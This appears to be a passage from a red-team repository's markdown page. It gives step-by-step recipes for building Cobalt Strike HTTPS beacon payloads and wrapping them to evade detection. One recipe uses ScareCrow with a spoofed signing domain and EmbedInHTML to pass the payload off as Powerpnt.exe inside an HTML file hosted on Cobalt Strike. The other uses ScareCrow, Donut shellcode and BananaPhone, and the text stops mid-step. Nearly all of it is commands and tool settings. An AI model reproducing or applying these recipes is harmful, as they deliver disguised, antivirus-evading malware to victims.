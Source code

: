 ### **__20-https-scarecrow.html__**

* Make sure osslsigncode is installed (apt-get install osslsigncode)
* Generate a raw 64 bit bin file in Cobalt Strike
  1. Attacks
  2. Packages
  3. Windows Executable (S)

| Field | Option |
|----|----|
| Listener | HTTPS |
| Output | RAW |
| x64 | Checked |

* Save as: `payload64.bin`
* Run the following command:

  ```bash
  ./ScareCrow -I /share/payloadstmp/payload64.bin -domain <DOMAIN>
  ```
  1. the domain can be anything (amazon.com, acme.com, etc.)
  2. <https://github.com/optiv/ScareCrow>
* Embed the script in HTML

  ```bash
  python2.7 embedinHTML.py -f Powerpnt.exe -o 20-https-scarecrow.html -k randomkeygoeshere
  ```
  1. <https://github.com/Arno0x/EmbedInHTML>
* Host HTML file on Cobalt Strike

### **__21-https-banaphone.exe__**

* Generate a raw 64 bit bin file in Cobalt Strike
  1. Attacks
  2. Packages
  3. Windows Executable (S)

| Field | Option |
|----|----|
| Listener | HTTPS |
| Output | RAW |
| x64 | Checked |

* Save as: `payload64.bin`
* Create a Windows binary file with ScareCrow

  ```bash
  ./ScareCrow -I payload64.bin -Loader binary -domain acme.com
  ```
* Convert the binary into 64 bit PIC shellcode with Donut

  ```bash
  ./donut -a 2 -f 7 -o donut_payload.bin cmd.exe
  ```
* Open the newly created .bin file with sublime text editor.
* Copy the byte array into the main.go file in the following directory: BananaPhone/example/hideexample/banana
* In the same directory run the following command to build the banana.exe file
